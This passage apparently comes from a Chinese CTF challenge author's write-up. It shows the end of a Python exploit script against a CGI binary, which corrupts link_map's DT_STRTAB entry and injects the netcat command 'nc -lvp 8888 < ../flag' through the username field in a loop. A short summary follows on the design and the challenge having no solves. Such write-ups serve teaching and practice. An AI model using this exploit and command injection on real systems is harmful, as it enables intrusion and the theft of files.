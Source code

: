 ```python
    return re

def send_req(data):
    url = f"http://{ip}:{port}/cgi-bin/main.cgi"
    data_len = len(data)

    headers = {
        "Host": f"{ip}",
        "Pragma": "no-cache",
        "Cache-Control": "no-cache",
        "Upgrade-Insecure-Requests": "1",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 Edg/125.0.0.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
        "Connection": "close",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Content-Length": f"{data_len}",
    }

    response = requests.post(url, data = data)
    print(response.text)

data = cons_ptr_arr()
cmd = "nc -lvp 8888 < ../flag"
data += f"&username={cmd}&passwd={'a'*strtab_pad}&a=b"
i = 0
while True:
    i+=1
    print(i)
    send_req(data)

```

总结
--

出题时没有把代码写的很复杂，目的是让选手专注在漏洞利用上。不能用的洞在比赛前一天才发现，不过不影响题目也就没有改。

题目漏洞不难发现，利用时一个要是想到打`link_map`，一个是把`l_info[DT_STRTAB]`指向全局数组。最后0解有点意外，可能时间太少大佬又去打google ctf了吧。